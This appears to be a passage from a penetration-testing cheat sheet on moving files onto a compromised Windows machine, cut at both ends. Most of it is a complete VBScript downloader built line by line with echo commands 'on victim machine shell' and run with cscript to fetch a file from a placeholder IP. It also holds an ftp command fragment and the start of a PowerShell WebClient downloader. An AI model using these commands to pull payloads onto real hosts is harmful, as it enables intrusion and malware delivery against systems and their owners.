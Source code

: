 	ftp -v -n -s:ftp.txt
	
<b>VBScript (in Windows XP, 2003)</b>

On victim machine shell:

	echo strUrl = WScript.Arguments.Item(0) > wget.vbs &
	
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs &
	
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs &
	
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs &
	
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs &
	
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs &
	
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs &
	
	echo Err.Clear >> wget.vbs &
	
	echo Set http = Nothing >> wget.vbs &
	
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs &
	
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs &
	
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs &
	
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs &
	
	echo http.Open "GET", strURL, False >> wget.vbs &
	
	echo http.Send >> wget.vbs &
	
	echo varByteArray = http.ResponseBody >> wget.vbs &
	
	echo Set http = Nothing >> wget.vbs &
	
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs &
	
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs &
	
	echo strData = "" >> wget.vbs &
	
	echo strBuffer = "" >> wget.vbs &
	
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs &
	
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray, lngCounter +1, 1))) >> wget.vbs &
	
	echo Next >> wget.vbs &
	
	echo ts.Close >> wget.vbs

	cscript wget.vbs http://<[IP]>/<[FILE]> <[FILE_NAME]>
	
<b>Powershell</b> (In Windows 7, 2008 and above)

On victim machine shell:

	echo $storageDir = $pwd > wget.ps1
	
	echo $webclient = New-Object System.Net.WebClient >> wget.ps1
	